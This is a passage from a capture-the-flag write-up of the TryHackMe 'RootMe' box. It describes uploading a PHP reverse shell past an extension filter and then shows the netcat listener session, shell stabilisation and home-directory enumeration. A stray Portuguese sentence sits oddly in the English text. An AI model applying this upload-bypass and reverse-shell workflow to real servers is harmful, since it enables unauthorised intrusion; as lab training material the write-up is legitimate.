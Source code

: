 3. Exploit Chain
	1. The `/panel` allow us to upload a [file](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/RootMe/web/revshell.php5). There is workaround the problem that occurs with the default php engine files. Espero que o seu português seja bom!!
	2. We can then use `/uploads` to invoke that malicious file through he PHP backend engine.


## INITIAL ACCESS

1. We can get a simple PTY shell as shown. 

```bash
$ nc -lnvvp 1337
listening on [any] 1337 ...
connect to [10.17.88.193] from (UNKNOWN) [10.10.207.152] 36922
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:23:39 up 18 min,  0 users,  load average: 0.02, 0.27, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                                                   
┌──(kali㉿kali)-[~/…/In Progress/Easy/RootMe/web]
└─$ stty raw -echo;fg     
[1]  + continued  nc -lnvvp 1337

www-data@rootme:/$ export TERM=xterm
```

2. Let's look around for the `user.txt` flag and PrivEsc. But to our surprise we found that the user.txt is not in the usual place. One can jump into a manual search or use the cute *Linpeas*. Why not both?

```bash
www-data@rootme:/$ ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz
www-data@rootme:/$ ls -la home/
rootme/ test/   
www-data@rootme:/$ ls -la home/*
home/rootme:
total 32
drwxr-xr-x 4 rootme rootme 4096 Aug  4  2020 .
drwxr-xr-x 4 root   root   4096 Aug  4  2020 ..
-rw------- 1 rootme rootme  100 Aug  4  2020 .bash_history
-rw-r--r-- 1 rootme rootme  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 rootme rootme 3771 Apr  4  2018 .bashrc
drwx------ 2 rootme rootme 4096 Aug  4  2020 .cache
drwx------ 3 rootme rootme 4096 Aug  4  2020 .gnupg
-rw-r--r-- 1 rootme rootme  807 Apr  4  2018 .profile
-rw-r--r-- 1 rootme rootme    0 Aug  4  2020 .sudo_as_admin_successful

home/test:
total 28
drwxr-xr-x 3 test test 4096 Aug  4  2020 .
drwxr-xr-x 4 root root 4096 Aug  4  2020 ..
-rw------- 1 test test  393 Aug  4  2020 .bash_history
-rw-r--r-- 1 test test  220 Aug  4  2020 .bash_logout
-rw-r--r-- 1 test test 3771 Aug  4  2020 .bashrc
drwxrwxr-x 3 test test 4096 Aug  4  2020 .local
```